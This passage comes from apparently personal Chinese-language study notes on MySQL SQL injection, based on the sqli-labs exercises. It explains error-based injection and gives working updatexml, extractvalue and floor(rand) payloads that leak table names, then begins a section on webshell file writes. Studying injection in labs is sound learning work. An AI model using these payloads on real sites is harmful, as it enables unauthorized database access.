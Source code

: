     8. 原理：

        ![image-20220331202858728](SQL注入/image-20220331202858728.png)

        如上图所示，按照道理来说，`select count(*), floor(rand(*0) * 2) x from employees;`的结果应该是两行，x 可以为 0 或 1 且各两次（`count(*)` 的值都为 2），但是结果却是只有 0 且次数为 4。说明 MySQL 在执行这段语句时内部发生了意想不到的问题，此时结合 `group by floor(rand(0) * 2)` 就会发生错误。（虽然还是不懂错误的根本原因）
        
        TODO：其他的报错注入

4. 利用：

    报错当前数据库的列名。

    `and updatexml(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x7e), 1) -- -`

    或者：

    `and extractvalue(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x7e)) -- -`

    或者：

    `union select 1,count(*),concat(0x7e, 0x7e, (select table_name from information_schema.tables where table_schema = database() limit 0,1), 0x7e, 0x7e, floor(rand(0)*2)) x from information_schema.tables group by x -- -`

    `concat()` 负责将内容整合成字符串，这里 table_name 使用  `group_concat()` 会无效。所以用  `limit` 来获取。

## 4. Less-7（写入木马文件、读文件）

1. 使用条件：

    1. `secure_file_priv` 的值不能为 NULL，NULL 代表 MySQL 不允许导入导出。

        若没有具体的值，就代表不限制导入导出

        否则就是具体路径

    2. 查看 `secure_file_priv` 的参数的值：

        `show global variables like '%secure%';`

    3. 默认情况下，该值为 NULL。

2. outfile 和 dumpfile

    假设有一个二进制文件，如果用 outfile 导入，则在导出过程中会被转义从而被破坏，这是只能使用 dumpfile 函数。即 dumpfile 不会对行列进行终止与转义。
